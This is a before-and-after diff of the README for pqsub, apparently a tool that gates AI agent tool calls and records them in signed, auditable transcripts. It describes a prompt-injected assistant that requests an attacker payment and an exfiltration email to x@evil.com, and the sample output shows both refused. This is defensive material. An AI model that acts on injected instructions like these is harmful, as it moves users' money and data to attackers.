

Before and after one commit to exocognosis/pqsub, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; pictures changed too: docs/media/pqsub-demo-poster.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -41,16 +41,46 @@ pqsub answers **yes**, with post-quantum signatures. An agent that has been prom
 | A buggy or dishonest executor runs a forbidden call anyway | It happened — but it's provable | `EXECUTED_UNAUTHORIZED`, exit 2 |
 | Anyone edits one bit of the transcript | — | `INVALID [BAD_SIGNATURE]`, exit 2 |
 
+[![85-second demo: the gate refuses an injected payment and an exfiltration email, and the independent verifier audits the transcript](docs/media/pqsub-demo-poster.png)](docs/media/pqsub-demo.mp4)
+
+*An 85-second demo: a prompt-injected assistant asks for an attacker payment and a data-exfiltration email. The executor gates refuse both, and the independent verifier shows that every executed call was authorized.* The video is rendered from the real output of `./examples/demo-banking.sh` by [`scripts/render-demo-video.py`](scripts/render-demo-video.py). There is also a [version without narration](docs/media/pqsub-demo-clean.mp4) with [separate captions](docs/media/pqsub-demo.srt).
+
+## Why this exists
+
+Prompts, filters and monitoring make agent hijacking less likely, but cannot stop a hijacked agent from *asking* for an unauthorized action. Permission checks that run inside the agent process fail along with that process. pqsub assumes the agent is fully compromised: authorization is enforced by a gate in the executor that holds the credentials, and every attempt is recorded in a signed, hash-chained transcript that anyone can audit offline.
+
+> If tools are reachable only through executors that run the gate, then a prompt-injected agent cannot cause a side effect outside the authority delegated to it, and a third party can verify this from the transcript.
+
+More detail, including what is proven today and what is still assumed: [docs/POSITIONING.md](docs/POSITIONING.md).
+
 ## Verify it yourself in about 2 minutes
 
 You need [Rust (rustup)](https://rustup.rs). The pinned toolchain installs itself.
+
+**1. Clone:**
 
 ```bash
 git clone https://github.com/exocognosis/pqsub && cd pqsub
 ```
 
+**2. Run the whole scenario with one command.** It builds, delegates authority, lets a prompt-injected assistant request a legitimate payment, an attacker payment, a legitimate email and an exfiltration email, shows each gate decision, and then audits the resulting transcript with the independent verifier:
+
 ```bash
-cargo build --release --locked
+./examples/demo-banking.sh
 ```
 
-Audit the banking scenario above, using the **independent** verifier (a second implementation that shares no code with the producer):
+```text
+== 3. Each executor's gate decides before anything runs ==
+send_money pay the rent                EXECUTED                   {"amount":95000,"to":"DE89LANDLORD"}
+send_money injected: pay the attacker  REFUSED  CAVEAT_VIOLATION  {"amount":5000,"to":"GB00ATTACKER"}
+send_email notify the landlord         EXECUTED                   {"body":"Rent paid","to":"landlord@acme.com"}
+send_email injected: exfiltrate data   REFUSED  CAVEAT_VIOLATION  {"body":"account statements","to":"x@evil.com"}
+bank ledger: 1 payment(s)   mail outbox: 1 message(s)
+...
+== 4. Anyone with root.pub audits the transcript offline (independent verifier) ==
+BLOCKED                entry #3   call #2   reason=6  justified=true
+BLOCKED                entry #7   call #6   reason=6  justified=true
+VALID  8 entries  anchored=true  head=…  findings=2
+PROVED every executed call was authorized at execution time
+```
+
````
Also changed, not shown: other parts of README.md (+13 -5 lines), docs/POSITIONING.md (added, +45 -0 lines), 8 other files.
